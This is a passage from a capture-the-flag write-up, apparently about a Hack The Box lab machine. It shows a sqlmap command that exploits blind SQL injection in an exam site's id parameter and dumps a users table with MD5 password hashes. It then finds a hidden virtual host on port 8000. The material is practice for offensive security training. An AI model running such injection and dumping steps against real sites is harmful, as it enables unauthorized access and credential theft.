     | users         |
    +---------------+
    ...[snip]...
    

I’ll dump the `users` table:

    
    
    oxdf@hacky$ sqlmap -D erms_db -T users --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    Database: erms_db
    Table: users
    [3 entries]
    +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
    | id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
    +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
    | 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
    | 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
    | 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
    +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
    ...[snip]...
    

There’s three users, each with what look like MD5 hashes for the password.
[CrackStation](https://crackstation.net/) doesn’t crack any of them.

There’s also paths to the users’ avatars. They each start with
`../oldmanagement/files/`.

#### New VHost

There’s a couple databases that I can’t associate with an application at this
point. Thinking about how web servers are typically setup, various hosts each
have a folder in `/var/www/`. So if ERMS is running out of something like
`/var/www/emrs`, then the avatars are linked back to `/var/www/oldmanagement`,
which suggests that might be a different virtual host. It’s worth a try -
adding `oldmanagement.seventeen.htb` to `/etc/hosts` and visiting in Firefox
loads a new login form:

![image-20220503205802532](https://0xdfimages.gitlab.io/img/image-20220503205802532.png)

Surprisingly, there are no exploits in `searchsploit` for this.

Interestingly, the request does redirect to
`http://oldmanagement.seventeen.htb:8000/oldmanagement/`. So this app is
actually hosted on port 8000.

#### db_sfms
